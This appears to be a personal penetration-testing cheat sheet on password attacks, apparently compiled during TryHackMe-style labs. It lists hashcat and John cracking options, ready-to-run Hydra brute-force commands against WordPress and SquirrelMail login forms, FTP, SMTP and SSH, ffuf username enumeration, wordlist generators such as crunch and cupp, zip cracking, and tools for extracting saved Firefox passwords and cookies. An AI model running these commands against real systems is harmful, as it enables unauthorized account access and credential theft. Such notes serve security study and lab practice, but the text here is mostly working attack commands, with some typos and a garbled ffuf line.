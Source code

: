 

## Basics
- cracking: from hash
- guessing: from dictionary (loud)
- dump = leaks of passwords/hash
- Combine
  - cat file1 file2 > file3
  - sort fil3 | uniq u > cleaned

## Hashcat
- Identify hash
  - hashid
  - hashidentifier

- wordlist
  - hashcat target /path/to/word/list
- hashcat
  - a 0 = dictionary attack
    - dictionary = list | brute-force = guessing
  - -m 0 = type of hash
  - -a 3 = brute force method
  - ?d = use digit for generating
  - TOTAL_CHARACTERS = generate list

- [Crackstation](https://crackstation.net/)
  
## John
- Using rules
  - john --wordlist=existing_list --rules=pick_one --stdout
  - --format=ENCRYPTION
  - adding rule
    - conf file: [rule_name] Az"[0-9]" ^[!@#$]

## Hydra
- hydra -l username -P wordlist.txt server service
- hydra -l username -P wordlist.txt service://server (hydra -l -u $target smb -V -f)
- -d = debug
- -v = verbose
- -V = show attempts
  - vV = more info
- -f = terminate if found
- -s = port to connect
- -t = number threadlos
- hydra MODULE -U

- web
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* **"/[PATH_TO_LOGIN]:[body_request]:[F|S]=[ERROR_MESSAGE]"** -vV -f
    - F:failing strings
    - S:sucessfull strings
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* **"/[request]:username=^USER^&password=^PASS^:F=incorrect"** -v
  
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* '/login.aspx:BODY_PARAMETER_WITH_PASSWORD:S=logout.php' -f
  
    - Request: *HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy*
    - IP/URL http-get-form | http-post-form "/login-get/index.php:[BODY_CONTENT]&username=^USER^&PASSWORD=^PASS:S=logout.php" -f
    - for post: whole POST BODY
      - S= [message_for_success]
      - F= [message_for_failed]
      - -V Verbose
      - -f = stop attack after finding
      - -L = List of usernames
      - -s=302 ==> sucessfull redirect

```
hydra -l Elliot -P /usr/share/wordlists/rockyou.txt.gz $target http-post-form\n'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.131%2Fwp-admin%2F&testcookie=1:ERROR: The password you entered for the username elliot is incorrect. Lost your password?'  -f

hydra -l milesdyson -P log1.txt $target http-post-form '/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect.'\n
```

- FTP
  - hydra -l [USERNAME] -P password.lst ftp://IP

- SMPT
  - -l email@address.com -P [Password_List] smtp://IP -v

- SSH
  - -L [USER_LIST] -P [PASS_LIST] ssh://IP -v

## User enumeration
-  fuff -w [wordlist] -X [Method] -d " username=FUZZ& data to be sent" -H "additional header request" -u "url" -mr "we are looking for this answer / match regex"
   -  the *FUZZ* will be replaced by the items in the wordlist

- ffuf -w [Wordlist1]:KeyWord1 , [Wordlist2]:KeyWord2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-w  ww-form-urlencoded" -u http://10.10.1.70/customers/login -fc 200j@fakemail.thm"
- https://tryhackme.com/room/authenticationbypass

## Brutespray
- Toll that uses result from nmap scan .xml
- [Information here](https://github.com/x90skysn3k/brutespray)

## Creating Wordlists
- cewl URL
  - -w = output
  - -d 5 = depth
  - -m 5 = minimum
  
- username_gennerator.py

- crunch
  - combination of characters
  - crunch 2 2 123456abcd -o output
  - -t startpassword[symbol1][symbol2]
    - @ lower case
    - , upercase
    - % numeric
    - ^ special

- cupp
  - based on information of the target, birthdate, pet, etc
  - https://github.com/Mebus/cupp.git

## Zip files
- John
- fcrackzip
  - -D = dictionary
  - -u = only correct password

## Mozillas files
- Files
  - .db
  - logins.json
  - cookies.sqlite
- https://github.com/lclevy/firepwd.git
- https://github.com/unode/firefox_decrypt.git
- msfconsole:
  -  use post/multi/gather/firefox_creds = extract files